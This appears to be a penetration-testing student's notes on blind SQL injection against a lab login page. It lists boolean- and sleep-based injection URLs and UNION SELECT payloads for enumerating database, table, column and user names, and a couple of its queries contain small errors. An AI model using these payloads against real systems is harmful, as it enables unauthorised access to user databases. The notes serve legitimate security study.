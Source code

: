 
# Blind-Based Auth Bypass
Login forms that are connected to a db of users are often developed so the web app isn't interested in the content of the fields but whether the two make a matching pair in the users table.
  
→ Leads to:  
### Boolean-Based
When you have a login that checks for usernames already taken: can enum looking for results that return ‘true’

##### Easy test
```sql
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```

##### Enumerate for other users
```sql
-- IF condition will always be true inside the statement itself, but will return false if the user is non-existent.
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //

false_user' UNION SELECT 1,2,3 where database() like '%';-- 
```
	Can cycle through _‘a%’_, _‘b%’_, _‘c%’_, etc etc until you reach a ‘true’ result telling you the start of the name of the db.
		Can then cycle through all combinations of _‘sa%’_, _'sb%'_, _‘sc%’_, etc etc until all letters of the db name are discovered.


### More
##### Enum through table names within discovered db
```sql
false_user' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'found_table' and table_name like 'a%';--
```

##### Confirm found table within found db
```sql
false_user' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'found_db' and table_name='found_table';--
```

##### Enum through columns
```sql
false_user' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='found_db' and TABLE_NAME='found_table' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';  

```
  
##### Enum through data
```sql
false_user' UNION SELECT 1,2,3 FROM found_table WHERE username_col='a%'
```
	Find usernames  
